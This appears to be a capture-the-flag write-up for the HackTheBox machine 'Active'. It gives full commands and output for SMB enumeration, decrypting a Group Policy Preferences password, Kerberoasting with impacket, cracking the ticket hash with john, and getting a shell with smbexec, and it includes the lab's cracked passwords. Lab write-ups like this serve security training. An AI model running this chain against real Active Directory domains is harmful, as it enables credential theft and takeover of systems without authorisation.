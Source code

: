 # Active

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.192.152
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-05 02:08 EDT
Nmap scan report for 10.129.192.152
Host is up (0.014s latency).
Not shown: 60173 closed tcp ports (conn-refused), 5341 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5722/tcp  open  msdfsr
9389/tcp  open  adws
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49157/tcp open  unknown
49158/tcp open  unknown
49165/tcp open  unknown
49170/tcp open  unknown
49172/tcp open  unknown
```

Since this is an AD machine, we can start with basic enumeration of SMB shares, Kerberos and LDAP.

### SMB Enum

Checking SMB shares via `smbmap` reveals there is one share available:

```
$ smbmap -H 10.129.192.152                                  
[+] IP: 10.129.192.152:445      Name: 10.129.192.152                                    
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    NO ACCESS       Remote IPC
        NETLOGON                                                NO ACCESS       Logon server share 
        Replication                                             READ ONLY
        SYSVOL                                                  NO ACCESS       Logon server share 
        Users                                                   NO ACCESS
```

We can use `smbclient` to login and view the files:

```
$ smbclient -U "" //10.129.192.152/Replication -N
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Jul 21 06:37:44 2018
  ..                                  D        0  Sat Jul 21 06:37:44 2018
  active.htb                          D        0  Sat Jul 21 06:37:44 2018

                10459647 blocks of size 4096. 5186557 blocks available
```

We can download all the files present within the machine using these commands, and I saw an interesting file:

{% code overflow="wrap" %}
```
mask ""
recurse ON
prompt OFF
mget *
getting file \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\Groups.xml of size 533 as active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml (16.8 KiloBytes/sec) (average 23.8 KiloBytes/sec)
```
{% endcode %}

Within this file, we can find an encrypted pasword:

{% code overflow="wrap" %}
```markup
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
```
{% endcode %}

This was a GPO password, and it can be decrypted using `gpp-decrypt` since we have the key and the password.

{% embed url="https://www.kali.org/tools/gpp-decrypt/" %}

```
$ gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
GPPstillStandingStrong2k18
```

Now, we have a password of a service account to use. With this, we can read the `C:\Users` directory and find the flag in the Desktop of `SVC_TGS` user.&#x20;

```
$ smbmap -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18' -H 10.129.192.152 
[+] IP: 10.129.192.152:445      Name: 10.129.192.152                                    
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    NO ACCESS       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        Replication                                             READ ONLY
        SYSVOL                                                  READ ONLY       Logon server share 
        Users                                                   READ ONLY
```

## Privilege Escalation

### Kerberoasting

We have access to a service account here, and it is for the Ticket Granting Service. As such, we can attempt to do Kerberoasting.&#x20;

```
$ impacket-GetUserSPNs -request -dc-ip 10.129.192.152 active.htb/SVC_TGS -outputfile hashes.kerberoast 
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet             LastLogon                   Delegation 
--------------------  -------------  --------------------------------------------------------  --------------------------  --------------------------  ----------
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 15:06:40.351723  2023-05-05 02:07:43.878117             
```

So we can use this to harvest the TGS tickets for the administrator. Then, we can crack the hash (because user passwords are used to encrypt the tickets).

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hashes.kerberoast 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Ticketmaster1968 (?)     
1g 0:00:00:04 DONE (2023-05-05 02:21) 0.2277g/s 2400Kp/s 2400Kc/s 2400KC/s Tiffani1432..Thrash1
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Then, we can get a shell via `smbexec.py`.

<figure><img src="../../../.gitbook/assets/image (989).png" alt=""><figcaption></figcaption></figure>

Rooted!

